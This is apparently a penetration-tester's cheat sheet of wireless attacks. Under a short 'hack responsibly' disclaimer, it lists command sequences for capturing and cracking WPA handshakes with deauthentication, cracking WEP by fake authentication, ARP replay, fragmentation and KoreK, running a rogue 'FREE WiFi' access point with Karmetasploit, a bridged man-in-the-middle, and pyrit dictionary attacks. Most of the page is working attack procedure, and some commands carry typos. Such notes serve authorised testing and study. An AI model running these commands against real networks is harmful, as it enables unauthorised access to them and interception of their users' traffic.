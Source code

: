 # Wireless

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here.  
{% endhint %}

[https://www.bettercap.org/](https://www.bettercap.org/)

[https://miloserdov.org/?p=1112\#1](https://miloserdov.org/?p=1112#1)

Nothing here yet...please feel free to contribute at [https://www.github.com/zweilosec](https://github.com/zweilosec)



## Choosing a wireless module

You must choose a wireless module that has a chipset that is capable of being put in monitor mode.  The site below has a fairly comprehensive list of adapters that support this.  

[https://miloserdov.org/?p=2196](https://miloserdov.org/?p=2196)

## **Setting TX \(transmit\) POWER**

`iw reg set BO`  
`iwconfig wlan0 txpower 25`

## **Cracking WPA**

`airmon-ng start wlan0`  
`airodump-ng -c $channel –bssid $AP_MAC -w $out_file wlan0mon`  
`aireplay-ng -0 1 -a $AP_MAC -c $victim_MAC wlan0mon` {deauth attack}  
`aircrack-ng -0 -w $pass_list $cap_file`

## **Cracking WEP**

###  **with Connected Clients**

`airmon-ng start wlan0 [$channel]`  
`airodump-ng -c $channel –bssid $AP_MAC -w $out_file wlan0mon`  
`aireplay-ng -1 0 -e $ESSID -a $AP_MAC -h $host_MAC wlan0mon` {fake authentication}  
`aireplay-ng -3 -b $AP_MAC -h $host_MAC wlan0mon` {ARP replay attack}`aireplay-ng -0 1 -a $AP_MAC -c $victim_client wlan0mon` {deauth attack - as needed}

### **via a Client**

`airmon-ng start wlan0 [$channel]`  
`airodump-ng -c $channel –bssid $AP_MAC -w $out_file wlan0mon`  
aireplay-ng -1 0 -e \(ESSID\) -a \(AP MAC\) -h \(OUR MAC\) wlan0mon {fake authentication}  
aireplay-ng -2 -b \(AP MAC\) -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 wlan0mon  
aireplay-ng -2 -r \(replay cap file\) wlan0mon {inject using cap file}  
aircrack-ng -0 -z\(PTW\) -n 64\(64bit\) filename.cap

### **ARP amplification**

airmon-ng start wlan0 \( channel\)  
airodump-ng -c \(channel\) –bssid \(AP MAC\) -w \(filename\) wlan0mon  
aireplay-ng -1 500 -q 8 -a \(AP MAC\) wlan0mon  
areplay-ng -5 -b \(AP MAC\) -h \(OUR MAC\) wlan0mon  
packetforge-ng -0 -a \(AP MAC\) -h \(OUR MAC\) -k 255.255.255.255 -l 255.255.255.255 -y \(FRAGMENT.xor\)   -w \(filename.cap\)  
tcpdump -n -vvv -e -s0 -r \(replay\_dec.\#\#\#\#\#.cap\)  
packetforge-ng -0 -a \(AP MAC\) -h \(OUR MAC\) -k \(destination IP\) -l \(source IP\) -y \(FRAGMENT.xor\) -w \(filename.cap\)  
aireplay-ng -2 -r \(filename.cap\) wlan0mon

### **Cracking WEP /w shared key AUTH**

airmon-ng start wlan0 \( channel\)  
airodump-ng -c \(channel\) –bssid \(AP MAC\) -w \(filename\) wlan0mon  
~this will error out~aireplay-ng -1 0 -e \(ESSID\) -a \(AP MAC\) -h \(OUR MAC\) wlan0mon {fake authentication}  
aireplay-ng -0 1 -a \(AP MAC\) -c \(VIC CLIENT\) wlan0mon {deauthentication attack}  
aireplay-ng -1 60 -e \(ESSID\) -y \(sharedkeyfile\) -a \(AP MAC\) -h \(OUR MAC\) wlan0mon {fake authentication /w PRGA xor file}  
aireplay-ng -3 -b \(AP MAC\) -h \(OUR MAC\) wlan0mon {ARP replay attack}  
aireplay-ng -0 1 -a \(AP MAC\) -c \(VIC CLIENT\) wlan0mon {deauthentication attack}  
aircrack-ng -0 -z\(PTW\) -n 64\(64bit\) filename.cap

### **Cracking a Clientless WEP \(FRAG AND KOREK\)**

#### _{FRAG}_

airmon-ng start wlan0 \(channel\)  
airodump-ng -c \(channel\) –bssid \(AP MAC\) -w \(filename\) wlan0mon  
aireplay-ng -1 60 -e \(ESSID\) -a \(AP MAC\) -h \(OUR MAC\) wlan0mon {fake authentication}  
~aireplay-ng -5 \(frag attack\) -b \(AP MAC\) -h \(OUR MAC\) wlan0mon  
packetforge-ng -0 -a \(APMAC\) -h \(OUR MAC\) -l 255.255.255.255 -k 255.255.255.255 -y \(fragment filename\) -w filename.cap  
tcpdump -n -vvv -e -s0 -r filename.cap {TEST}  
aireplay-ng -2 -r filename.cap wlan0mon

#### _{KOREK}_

~aireplay-ng -4 -b \(AP MAC\) -h \(OUR MAC\) wlan0mon  
tcpdump -s 0 -s -e -r replayfilename.cap  
packetforge-ng -0 -a \(APMAC\) -h \(OUR MAC\) -l 255.255.255.255\(source IP\) -k 255.255.255.255\(dest IP\) -y \(fragmentfilename xor\) -w filename.cap  
aireplay-ng -2 -r filename.cap wlan0mon  
aircrack-ng -0 filename.cap

## **Karmetasploit**

airbase-ng -c \(channel\) -P -C 60 -e “FREE WiFi” -v wlan0mon  
ifconfig at0 up 10.0.0.1/24  
mkdir -p /var/run/dhcpd  
chown -R dhcpd:dhcpd /var/run/dhcpd  
touch /var/lib/dhcp3/dhcpd.leases  
cat dhcpd.conf  
touch /tmp/dhcp.log  
chown dhcpd:dhcpd /tmp/dhcp.log  
dhcpd3 -f -cf /tmp/dhcpd.conf -pf /var/run/dhcpd/pid -lf /tmp/dhcp.log at0  
msfconsole -r /root/karma.rc

## **MISC**

### **Bridge-control man in the middle**

airebase-ng -c 3 -e “FREE WiFi” wlan0mon  
brctl addbr hacker\(interface name\)  
brctl addif hacker eth0  
brctl addif hacker at0  
ifconfig eth0 0.0.0.0 up  
ifconfig at0 0.0.0.0 up  
ifconfig hacker 192.168.1.8 up  
ifconfig hacker  
echo 1 &gt; /proc/sys/net/ipv4/ip\_forward

### **pyrit DB attacks**

pyrit eval  
pyrit -i \(wordlist\) import\_passwords  
pyrit -e \(essid\) create\_essid  
pyrit batch  
pyrit batch -r \(capturefile\) -b\(AP MAC\) attack\_db

**pyrit strip**  
pyrit -r \(capturefile\) -o \(capturefile output\) strip

**pyrit dictionary attack**  
pyrit -r \(capturefile\) -i \(/pathtowordlist\) -b \(AP MAC\) attack\_passthrough

### **airgraph-ng**

airgraph-ng -i filename.csv -g CAPR -o outputfilename.png  
eog outputfilename.png  
airgraph-ng -i filename.csv -g CPG -o outputfilename.png  
eog outputfilename.png

### **airdecap-ng**

airdecap-ng -b \(vic ap\) outputfilename.cap  
wireshark outputfilename.cap  
airdecap-ng -w \(WEP KEY\) \(capturefile.cap\)  
wireshark capturefile-DEC.cap  
airdecap-ng -e \(ESSID VIC\) -p \(WPA PASSWORD\) \(capturefile.cap\)  
wireshark capturefile-dec.cap

